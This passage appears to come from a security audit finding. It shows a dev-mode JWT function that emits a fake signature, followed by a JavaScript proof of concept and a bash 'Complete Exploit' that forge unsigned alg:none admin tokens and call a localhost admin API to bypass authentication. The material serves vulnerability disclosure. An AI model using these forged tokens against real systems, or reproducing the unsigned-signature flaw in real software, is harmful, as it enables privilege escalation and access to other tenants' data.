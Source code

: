 ```typescript
  const encodedPayload = Buffer.from(JSON.stringify(claims)).toString('base64url');

  // No signature in dev mode (algorithm: none)
  return `${encodedHeader}.${encodedPayload}.dev-signature`;  // ⚠️ FAKE SIGNATURE
}
```

#### Proof of Concept

**Attack Scenario: Forged Admin JWT**

```javascript
// Attacker creates malicious JWT payload
const maliciousPayload = {
  sub: "attacker",
  email: "attacker@evil.com",
  roles: ["admin"],           // ⚠️ Grant admin privileges
  tenant_id: "victim-tenant", // ⚠️ Access victim's data
  iat: Math.floor(Date.now() / 1000),
  exp: Math.floor(Date.now() / 1000) + (365 * 24 * 3600), // 1 year expiry
};

// Base64 encode (no cryptography needed)
const header = btoa(JSON.stringify({alg: "none", typ: "JWT"}));
const payload = btoa(JSON.stringify(maliciousPayload));

// Fake JWT with no valid signature
const forgedJWT = `${header}.${payload}.forged-signature`;

// Use forged JWT to access API
fetch('http://localhost:3000/api/admin/tenants', {
  headers: {
    'Authorization': `Bearer ${forgedJWT}`
  }
}).then(res => res.json()).then(console.log);
// Returns all tenants - authentication bypassed
```

**Complete Exploit:**
```bash
#!/bin/bash
# Forged JWT generator

PAYLOAD='{"sub":"attacker","email":"attacker@evil.com","roles":["admin"],"tenant_id":"any-tenant","iat":'$(date +%s)',"exp":'$(($(date +%s)+31536000))'}'

HEADER=$(echo -n '{"alg":"none","typ":"JWT"}' | base64 -w 0 | tr '+/' '-_' | tr -d '=')
BODY=$(echo -n "$PAYLOAD" | base64 -w 0 | tr '+/' '-_' | tr -d '=')

JWT="$HEADER.$BODY.fake"

echo "Forged JWT:"
echo "$JWT"

# Test with API
curl -H "Authorization: Bearer $JWT" http://localhost:3000/api/admin/tenants
```

